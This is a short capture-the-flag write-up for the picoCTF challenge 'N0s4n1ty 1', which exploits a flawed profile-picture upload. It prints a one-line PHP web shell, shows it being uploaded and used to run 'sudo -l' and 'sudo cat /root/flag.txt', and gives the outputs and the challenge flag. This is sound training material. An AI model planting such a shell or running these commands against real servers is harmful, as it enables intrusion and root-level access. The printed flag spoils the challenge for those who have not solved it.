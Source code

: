 # N0s4n1ty 1 picoCTF Write-Up

## Challenge Description
A developer has added profile picture upload functionality to a website. However, the implementation is flawed, and it presents an opportunity for you. Your mission is to navigate to the provided web page and locate the file upload area. The ultimate goal is to find the hidden flag located in the `/root` directory.

## Solution Steps

1. **Locate the File Upload Area**  
   Visit the challenge website and find the file upload section.

2. **Upload a Malicious PHP Script**  
   Prepare a PHP script that allows command execution:
   ```php
   <?php system($_GET['cmd']); ?>
   ```
   Upload this file as `script.php`.

3. **Test Command Execution**  
   Access the uploaded script and test if you can run system commands:
   ```
   http://standard-pizzas.picoctf.net:57439/uploads/script.php?cmd=sudo%20-l
   ```
   Output:
   ```
   Matching Defaults entries for www-data on challenge: env_reset, mail_badpass, secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
   User www-data may run the following commands on challenge:
   (ALL) NOPASSWD: ALL
   ```
   This confirms that the `www-data` user can run any command with sudo without a password.

4. **Read the Flag File**  
   Use the script to read the flag in `/root/flag.txt`:
   ```
   http://standard-pizzas.picoctf.net:57439/uploads/script.php?cmd=sudo%20cat%20/root/flag.txt
   ```
   Output:
   ```
   picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}
   ```

## Flag
```
picoCTF{wh47_c4n_u_d0_wPHP_b42a374d}
```